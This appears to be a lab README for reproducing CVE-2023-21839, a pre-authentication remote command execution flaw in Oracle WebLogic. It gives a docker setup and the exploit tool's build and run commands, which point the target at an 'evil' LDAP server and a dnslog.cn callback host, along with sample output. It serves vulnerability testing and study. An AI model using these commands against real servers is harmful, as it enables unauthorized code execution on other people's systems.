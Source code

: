 # Weblogic Pre-Auth Remote Command Execution (CVE-2023-21839)

[中文版本(Chinese version)](README.zh-cn.md)

Oracle WebLogic Server is the industry leading application server for building enterprise applications using Java EE standards, and deploying them on a reliable, scalable runtime with low cost of ownership.

In [Oracle Critical Patch Update Advisory - January 2023](https://www.oracle.com/security-alerts/cpujan2023.html), Oracle fixed this security vulnerability.

CVE-2023-21839 allow remote users to make a JNDI lookup operation through IIOP without authorization, which may cause RCE vulnerability when JDK version is too low or there is a gadget (use javaSerializedData) locally.

References:

- https://www.oracle.com/security-alerts/cpujan2023.html

## Environment Setup

Start a Weblogic server 12.2.1.3 by executing the following command:

```
docker-compose up -d
```

After the startup is complete, visit `http://your-ip:7001/console` to view the administrator console login page.

## Exploit

https://github.com/4ra1n/CVE-2023-21839


```shell
cd cmd
go build -o CVE-2023-21839
./CVE-2023-21839 -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

Windows

```shell
cd cmd
go build -o CVE-2023-21839.exe
CVE-2023-21839.exe -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

DNS Log

```shell
CVE-2023-21839.exe -ip 192.168.25.129 -port 7001 -ldap ldap://kmi896.dnslog.cn/test
[*] your-ip: 192.168.25.129
[*] your-port: 7001
[*] your-ldap: ldap://kmi896.dnslog.cn/test
[*] weblogic 12
[*] id=2 LocateRequest
[*] id=3 RebindRequest
[*] id=4 RebindRequest
[*] id=5 LocateRequest
[*] id=6 ResolveRequest
[*] id=7 ResolveRequest
```

![](1.png)